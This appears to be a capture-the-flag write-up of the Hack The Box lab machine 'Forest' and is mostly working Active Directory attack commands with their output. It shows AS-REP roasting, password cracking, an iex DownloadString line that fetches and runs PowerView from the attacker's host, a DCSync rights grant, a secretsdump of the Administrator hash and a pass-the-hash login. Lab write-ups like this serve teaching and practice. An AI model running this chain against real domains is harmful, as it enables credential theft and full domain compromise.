 ```yaml
---
title: "Forest writeup [HTB]"
categories:
    - Writeup
tags:
    - Windows
    - Active Directory
---
```


Forest is a Windows-based HTB machine with an Easy difficulty rating. The initial nmap scan reveals open ports including domain, Kerberos, and LDAP services. Exploitation involves enumerating users, obtaining a Kerberos hash for svc-alfresco, cracking the password, and gaining a foothold. Privilege escalation is achieved by abusing Exchange Windows Permissions, creating a new user, granting DCSync rights, and finally dumping domain credentials to obtain Administrator access. The machine was successfully compromised, with user and root flags obtained

* Difficulty: Easy
* OS: Windows
* Rating: 4.6
* Release Date: October 12, 2019 5:00 PM (GMT+1)

***

I began by enumerating the open ports to identify the services running on the box. Noticing port 88, it's likely that this box is a Domain Controller (DC). Additionally, SMB and LDAP are available, which are ideal for gathering more information. Let's start with SMB.

```
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.30s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Using `nxc`, I managed to obtain a list of valid local and domain users by exploiting anonymous login on SMB.

```bash
nxc smb 10.10.10.161 -u '' -p '' --user
```

```bash
Administrator
Guest
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

The easiest attack path when you have a valid list of domain users is to check if any accounts have pre-authentication disabled. That's exactly what I did using the GetNPUsers script from Impacket, and I found the account `svc-alfresco`.

```bash
impacket-GetNPUsers htb.local/ -request -format john -outputfile files/hash.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-08-27 19:16:24.316379  2024-08-27 19:15:56.582001  0x410200 

$krb5asrep$svc-alfresco@HTB.LOCAL:82ea9cf186f131cd904ce48c80d5d2f3$973d513bab9a3a49b7b4e7a93b117bd26d54aa2b98917631d3762f0c6d53e5233db24b33d669463dae69a8c7ef37a222dc489b22db725b9718394894e7ab773c25e79a82a4bf2f4dc88b5466be30583c2c40e8d4aa1694cfb19e5846b98a77260209e978ea9c89e11b569b89c026fabf872579bec799a01f59cd9a538d7eda0ddab8dbc925962a35b6b30258911353d3920c7675a7c592c2e89e679b79856bdd0a736d821881ebd242643f2d3974e22c10147e01d1eda31bebd2ad9a210207d89de32061b682b2d45e77a5458ec825514976d8c5885fc9f931f6ce7a49f0db8cefda4c36d0a0
```

now we have the hash of `svc-alfresco` user let try to crack it 

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
```

After obtaining valid user credentials, let's start enumerating again to see what actions we can perform with them. Returning to nxc, we found that we can use WinRM to access that user.

```bash
nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

By gaining shell access, we can retrieve the user flag located on the user's desktop. Upon examining the user's privileges, we discovered that they have interesting permissions that allow the creation of domain users. Using BloodHound, I was able to visualize a clear path to compromising the domain admin. The user is a member of the 'Account Operators' group, which has 'GenericAll' on 'Exchange Windows Permissions.' This, in turn, has 'WriteDACL' on the htb.local domain. By combining these privileges, we can create a domain user, grant them the right to perform a DCSync attack, and obtain the admin hash

```bash
evil-winrm  -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
*Evil-WinRM* PS C:\users\svc-alfresco> cd  C:\users\svc-alfresco
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 user.txt
```

```bash
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```bash
nxc ldap 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --bloodhound -c all --dns-server 10.10.10.161
```

![image.png](/assets/images/posts/Forest/enme.png)

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john Password123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.16.3:8000/PowerView.ps1'))
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'Password123!' -asplain -force 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

we can obtain the adm password using DCsync attack

```bash
impacket-secretsdump 'htb.local/john:Password123!@HTB.LOCAL'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

```bash
evil-winrm  -i 10.10.10.161 -u 'Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6                                    

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 root.txt

```

![Screenshot 2024-08-28 011747.png](/assets/images/posts/Forest/Screenshot_2024-08-28_011747.png)
